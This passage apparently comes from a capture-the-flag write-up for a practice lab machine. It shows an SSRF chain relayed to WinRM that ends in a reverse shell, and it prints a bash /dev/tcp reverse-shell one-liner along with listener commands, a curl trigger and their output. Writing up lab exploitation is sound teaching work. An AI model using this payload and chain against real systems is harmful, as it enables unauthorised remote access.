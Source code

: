 ```python
```
 - I also included the base64 encoded  reverse shell payload in the above python code 
```bash
echo 'bash -c "exec bash -i &>/dev/tcp/10.10.14.18/6001 <&1"' | base64
```
- Basically this python code will listen on 8443 and Upon receiving sends the request to target's port 5985 with including malicious payload as data. Then the malicious payload will run the reverse shell.

### Performing the attack
- Starting the python program
```bash
python3 exp.py
```
- Starting the ncat listener on port `443`
```bash
ncat --ssl -lnvp 443
```
- Starting the reverse shell listener
```bash
nc -lvnp 6001
```
- As we already made the IP rule to redirect the 11th request from port `443` to port `8443`. Now lets start the attack by using `fetch` endpoint pointing to our listener on port `443`.

```
❯ curl 'http://10.10.11.117/api/v1/fetch?endpoint=http%3A%2F%2F10.10.14.18' | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   176  100   176    0     0      2      0  0:01:28  0:01:02  0:00:26    42
jq: parse error: Invalid numeric literal at line 1, column 7

```
- Response from 443 listener:
```
❯ ncat --ssl -lnvp 443
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 9834 084E 3280 ECD3 7580 D227 EA15 2E75 6E9F B3C4
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.117:58228.
Ncat: Failed SSL connection from 10.10.11.117: error:0A000126:SSL routines::unexpected eof while reading

```
- Response from the python listener:
```
❯ python3 exp.py                                                                  
 * Serving Flask app 'exp'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on https://127.0.0.1:8443
 * Running on https://192.168.65.240:8443
Press CTRL+C to quit
10.10.11.117 - - [14/Mar/2025 23:55:13] "GET / HTTP/1.1" 301 -
```
- Got the reverse shell connection and secured both the {{< keyword >}} User flag {{< /keyword >}} & {{< keyword >}} Root flag {{< /keyword >}}
```
❯ nc -lvnp 6001

listening on [any] 6001 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.11.117] 53816
```